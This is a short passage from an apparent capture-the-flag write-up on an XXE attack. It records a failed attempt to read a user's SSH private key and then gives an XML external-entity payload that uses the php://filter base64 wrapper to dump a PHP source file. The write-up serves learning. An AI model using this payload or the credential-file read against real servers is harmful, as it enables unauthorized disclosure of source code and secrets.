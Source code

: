 Next, attempt `/home/development/.ssh/id_rsa`:

![bs_id_rsa_sended](screenshots/bs_id_rsa_sended.png)

Failed. We pivot to reading PHP source code.

### 3.2 Reading PHP Source

Using **php://filter** we dump `log_submit.php`:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=log_submit.php"> ]>
```
